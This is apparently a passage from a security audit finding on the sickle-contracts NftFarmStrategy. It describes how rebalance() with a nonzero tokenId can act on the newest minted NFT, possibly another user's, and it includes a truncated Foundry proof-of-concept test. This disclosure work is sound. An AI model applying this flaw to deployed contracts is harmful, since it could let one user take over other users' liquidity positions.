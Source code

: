 This holds only when `rebalance()` creates a new token in [`_zap_in()`](https://github.com/vfat-io/sickle-contracts/blob/8ce412b25614ba8f6b01cd6406bc740926e6fadf/contracts/strategies/NftFarmStrategy.sol#L969) and this happens only when `params.increase.zap.tokenId` is zero.

If a sickle's owner calls `rebalance()` with that param different from zero, subsequent operations [`_reset_nft_settings()`](https://github.com/vfat-io/sickle-contracts/blob/8ce412b25614ba8f6b01cd6406bc740926e6fadf/contracts/strategies/NftFarmStrategy.sol#L1017) and [`_deposit_nft()`](https://github.com/vfat-io/sickle-contracts/blob/8ce412b25614ba8f6b01cd6406bc740926e6fadf/contracts/strategies/NftFarmStrategy.sol#L848) are performed with:

- the newest created `tokenId` that can belong to any other user in the case of `UniswapV4Connector.sol`
- the newest created `tokenId` of the user in the case of `UniswapV3Connector.sol`

**PoC**

In `UniswapV4FarmTest.sol`:

```solidity
function _test_rebalance(
    uint256 amountInGross
) internal {
    uint256 amountIn = amountInGross * 9991 / 10_000;

    _test_deposit_using_eth(amountInGross); // 12067 on Arbitrum
    uint256 tokenId1 = _get_token_id();

    _test_deposit_using_eth(amountInGross); // 12068 on Arbitrum
    uint256 tokenId2 = _get_token_id();

    _test_deposit_using_eth(amountInGross); // 12069 on Arbitrum
    uint256 tokenId3 = _get_token_id();

    vm.startPrank(sickleOwner);

    uint256 amountInGross2 = amountIn / 2; // deposit half this time
    uint256 amountIn2 = amountInGross2 * 9991 / 10_000;

    address[] memory tokensOut = new address[](1);
    tokensOut[0] = address(0);

    nftFarmStrategy.rebalance(
        NftRebalance(
            IUniswapV3Pool(address(contracts.positionManager)),
            // use the positionManager to get the rebalance fee
            NftPosition({
                farm: farm,
                nft: INonfungiblePositionManager(
                    address(contracts.positionManager)
                ),
                tokenId: tokenId1
            }),
            NftHarvest({
                harvest: defaultSimpleHarvest,
                swaps: new SwapParams[](0),
                outputTokens: new address[](0),
                sweepTokens: defaultSimpleHarvest.rewardTokens
            }),
            NftWithdraw({
                zap: _get_withdraw_zap_out_data(tokenId1, false),
                extraData: "",
                tokensOut: tokensOut
            }),
            NftIncrease({
                tokensIn: new address[](0),
                amountsIn: new uint256[](0),
```